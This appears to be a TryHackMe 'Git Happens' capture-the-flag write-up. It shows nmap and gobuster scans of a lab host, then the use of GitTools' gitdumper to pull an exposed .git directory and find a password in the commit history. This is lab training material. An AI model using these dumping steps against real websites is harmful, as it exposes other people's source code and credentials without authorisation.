 ```yaml
---
title: "TryHackMe - Git Happens"
author: Nasrallah
description: ""
date: 2022-07-15 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, web, git]
img_path: /assets/img/tryhackme/githappens/

---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Git Happens](https://tryhackme.com/room/githappens) from [TryHackMe](https://tryhackme.com). The machine is running a webserver on port 80 with a exposed git directory. We pull that directory using GitTools, check the history of commits and find a password on one of the commits.

## Enumeration

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.207.110
Host is up (0.091s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
| http-git: 
|   10.10.207.110:80/.git/
|     Git repository found!
|_    Repository description: Unnamed repository; edit this file 'description' to name the...
|_http-title: Super Awesome Site!
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Only port 80 is open.

### Web

Let's navigate to the webpage.

![](1.png)

It's a login page but can't login.

From the nmap scan, we found out that there is a `.git` directory, and we can also see it if we run a directory scan.

```terminal
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.240.237/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/08/03 08:51:34 Starting gobuster in directory enumeration mode
===============================================================
/.git/HEAD            (Status: 200) [Size: 23]
/css                  (Status: 301) [Size: 194] [--> http://10.10.240.237/css/]
/index.html           (Status: 200) [Size: 6890]                               
                                                                               
===============================================================
```

![](2.png)

### Git

We can use a tool called [GitTools](https://github.com/internetwache/GitTools) to pull that directory to our machine.

Clone the repo with the following command.

```terminal
git clone https://github.com/internetwache/GitTools
```

Now we can pull the `.git` directory with dumper from the GitTools.

```terminal
./gitdumper.sh http://10.10.240.237/.git/ {destination-directory}
```

![](3.png)

Now go to where the `.git` directory is located and list the history of the commits with this command `git log --oneline`.

![](4.png)

There is a commit with the description `"Made the login page, boss!"` and it's ID is `395e087`.

To view the commit, we run the command `git show 395e087`. If we scroll down we found the following.

![](5.png)

Great! Found the password.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
